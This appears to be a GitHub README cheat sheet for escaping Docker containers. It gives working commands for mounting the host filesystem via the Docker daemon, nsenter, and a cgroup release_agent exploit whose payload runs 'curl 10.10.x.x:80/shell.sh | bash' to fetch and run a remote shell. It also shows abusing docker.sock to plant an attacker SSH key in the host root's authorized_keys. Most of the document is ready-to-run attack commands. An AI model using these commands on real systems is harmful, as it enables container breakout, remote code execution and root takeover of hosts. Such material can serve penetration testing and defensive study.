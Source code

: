 # Docker-Escape

Docker is an open-source containerization platform used for developing, deploying, and managing applications in lightweight virtualized environments called containers.

![OnPaste 20220611-182248](https://user-images.githubusercontent.com/106917304/173188805-30523d98-d755-4b94-8740-7a929aa28d6b.png)


# Exploitation

### Determining if we're in a container

1. Listing running processes
```markdown
ps aux
```
If there are few no. of process is running then you might be in docker.

2. Looking for .dockerenv
```markdown
cd / && ls -lah
```
If you see .dockerenv in base dir, then you're in a container.

3. Those pesky cgroups

Navigating to "/proc/1" and then catting  the "cgroups" file (cat cgroup).

4. Use following code to Verify you are in Docker
```markdown
if [ -f /.dockerenv ]; then
    echo "I'm inside matrix ;(";
else
    echo "I'm living in real world!";
fi
```


## Docker Escaping Techniques

### Escape via Exposed Docker Daemon
Run the following cmnd

If we're in bash
```markdown
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

If we're in alpine
```markdown
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

You can see the images repo
```markdown
docker images
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
```
NOTE: ubuntu:18.04 is the image repo

### Shared Namespaces
By using ps aux you can view the process with processID see pid 1 is running root it is the first one that executed when the system is booted.

Exploiting it with nsenter
```markdown
nsenter --target 1 --mount sh
```

### Escape By Mounting File System
```markdown
lsblk
mount /dev/sda2 /mnt
cd /mnt/root
```
NOTE: In this case sda2 is the dir we mount.

### Misconfigured Privileges
list out all the capabilities
```markdown
capsh --print
capsh --print | grep sys_admin
```
If we get sys_admin capability, means the system is vuln.

On attacker VM.

First make a shell.sh and set python server and set listner.

On target machine.

```markdown
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo $t/c >$d/release_agent;printf '#!/bin/sh\ncurl 10.10.x.x:80/shell.sh | bash' >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";
```

### Exploitation of docker.sock in /var/run or /run if you're ROOT

Check /var/run dir for docker.sock file if it's there and you're root then you can exploit it. First see that you can use curl cmd if not then wget curl from your system for static curl see the arch of target machine and get the static curl from [Resource](https://github.com/moparisthebest/static-curl)


STEP1: Listing the images of the container of the host
```markdown
./curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

STEP2: Now generate id_rsa in your machine
```markdown
ssh-keygen -t rsa
cat key.pub
```

STEP3: Creating a new docker container with image ID
```markdown
./curl -X POST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/containers/create -d '{"Detach":true,"AttachStdin":false,"AttachStdout":true,"AttachStderr":true,"Tty":false,"Image":"c3:latest","HostConfig":{"Binds": ["/:/var/tmp"]},"Cmd":["sh", "-c", "echo ssh-rsa AAAA..............xfoS+Yb2cW4y9cKcBWpVIiNMEtMX7sIB/0cKl8W/mY4u1UeRzWOoIIew6hqlaWCW6WKeSiCrNzEEj.........................P0/BMcKBS2pzqct2rTQ/LfFFM= root@kali >> /var/tmp/root/.ssh/authorized_keys"]}'
```

NOTE: replace "c3:latest" with the docker image name that you'll get from step1. eg: "RepoTags":["c3:latest"]

Now you'll see you created a docker and get the id. eg: {"Id":"c19a25c6cc7245030bf9741d300f632cc7f1e5f12adad238edce23d387ba00c2","Warnings":[]}


STEP4: Now we gonna use the id and start the docker
```markdown
./curl -X POST -H "Content-Type:application/json" --unix-socket /var/run/docker.sock http://localhost/containers/c19a25c6cc7245030bf9741d300f632cc7f1e5f12adad238edce23d387ba00c2/start
```


STEP5: Login SSH via your private key as user root and now you're root
```markdown
ssh -i key root@10.10.x.x
```

